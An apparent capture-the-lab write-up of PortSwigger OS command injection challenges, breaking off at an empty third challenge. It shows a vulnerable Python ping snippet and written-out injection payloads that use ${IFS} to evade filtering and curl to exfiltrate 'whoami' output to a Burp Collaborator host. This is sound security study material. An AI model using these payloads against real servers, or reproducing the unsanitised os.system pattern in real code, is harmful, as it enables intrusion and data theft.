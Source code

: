 ### Command injection(Portswigger labs)

### Command Injection vulnerability in web apps 
   
   Command injection occurs when an attacker is able to execute shell commands(operating system commands) on a server.This vulnerability can compromise sensitive data and also help to grant access too an infrastructure.Below is an example of a vulnerable code snippet
   A website can decide to use the Linux ping utility to allow website visitors to ping ip addresses e.g
        
        import os

        ipaddr = input('Enter your ip address')
        result = os.system(f"ping {ipaddr}")
        print(result)
  
  If the user input is not properly sanitized,an attacker can close the first statement with a semi-colon(if linux) and execute another statement.
  
### Challenge 1: Os command injection simple case
Challenge description:

![2023-10-22_16-05](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/1a21ffc3-3e04-46d1-bb0c-682749281f3d)

- I intercepted the check stock feature with burp proxy 

![2023-10-22_16-16](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/dbd5496c-ea1a-43d8-b108-6201643e3351)

- I tested both fields with linux shell command but It did not return any output.So I used semi-colon before the commands and it worked.
     
![2023-10-22_16-14](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/cd3e5497-c800-480d-bab8-e5bafd9bd7a3)

- Challenge solved

 ![2023-10-22_16-17](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/9a4035f0-62b1-41f2-b186-c1dfb8ce43c8)

### Challenge 2:
Challenge 2 description: Blind command injection with out of band exfiltration

 ![2023-10-24_14-12](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/dbec0d6a-ba94-4377-a8fc-f7bed033e85f)

- The main goal of this challenge is to exploit blind command injection by exfiltrating command output with the aid of burp collaborator.I intercepted the feedback form with burp proxy.

 ![2023-10-24_14-31](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/37093ea4-afa0-499e-afcc-f75610fc3d23)

- After sending to the repeater,I decided to test if the linux utilities that I need are filtered or if some commands are filtered.The first thing I did was making a request to burp collaborator with curl and I noticed that the string 'curl' was not filtered by the website.
- I used this payload to send a request to burp collaborator with a message saying "sleep".Note that ${IFS} means space in bash

      ;curl${IFS}<burp collaborator's link>${IFS}-d${IFS}'sleep'
- The server made a request to burp collaborator containing "sleep" in the body.

  ![2023-10-24_14-49](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/3df3fac5-8e45-4b4e-8e2c-e2db12d8dbd0)

- I exfiltrated the current user account with this payload.The payload pipes the result of 'whoami' to the position of @- and curl makes a request containing the data to burp collabortor.

      ;whoami${IFS}|curl${IFS}<burp collaborator's link>${IFS}-d${IFS}@-${IFS}2>/dev/null
- Burp collaborator received a request containing the current user account.

 ![2023-10-24_14-49](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/ebbce3fd-b83d-47fd-be84-294500b5aa60)

- Challenge solved

### Challenge 3:

Challenge 3's description: Blind command injection with out-of-band interaction

 ![2023-10-24_15-08](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/d3bf9ad4-7537-4243-aa13-66e7b422dcaa)

-  

 ### Challenge 3:
Challenge description:
